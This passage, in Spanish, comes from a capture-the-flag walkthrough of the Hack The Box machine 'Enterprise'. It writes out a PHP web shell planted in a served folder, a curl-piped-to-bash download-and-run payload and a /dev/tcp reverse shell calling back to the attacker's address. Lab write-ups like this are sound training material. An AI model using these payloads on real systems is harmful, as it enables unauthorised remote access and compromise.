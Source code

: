 ```bash
❭ curl -s -k https://10.10.10.61/files/hola.txt
hola
```

Perrrrrrfecto, asi que podemos crearnos un archivo `.php` con contenido malicioso para que sea interpretado por la web :) Y ver a donde nos lleva...

```bash
www-data@a7018bfdc454:/var/www/html/files$ echo '<?php system("whoami; hostname"); ?>' > hola.php
```

```bash
❭ curl -s -k https://10.10.10.61/files/hola.php
www-data
enterprise.htb
```

Al parecer ahora si estamos comunicándonos con el **host**, entablémonos una nueva Reverse Shell :)

```bash
www-data@a7018bfdc454:/var/www/html/files$ echo '<?php system("curl http://10.10.14.17:8000/rev.sh | bash"); ?>' > hola.php
```

Cambiamos el puerto en el que vamos a estar escuchando:

```bash
❭ cat rev.sh 
#!/bin/bash

bash -i >& /dev/tcp/10.10.14.17/4435 0>&1
```

Nos ponemos en escucha: `nc -lvp 4435` y hacemos la petición hacia el recurso, obtenemos:

![112bash_wwwdata_enterpriseHTB_RevSH](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/enterprise/112bash_wwwdata_enterpriseHTB_RevSH.png)

Tratamiento de la TTY y a enumerar.

...

## Escalada de privilegios [#](#escalada-de-privilegios) {#escalada-de-privilegios}

Con **www-data** tenemos acceso a la flag `user.txt` sobre la ruta `/home/jeanlucpicard`.
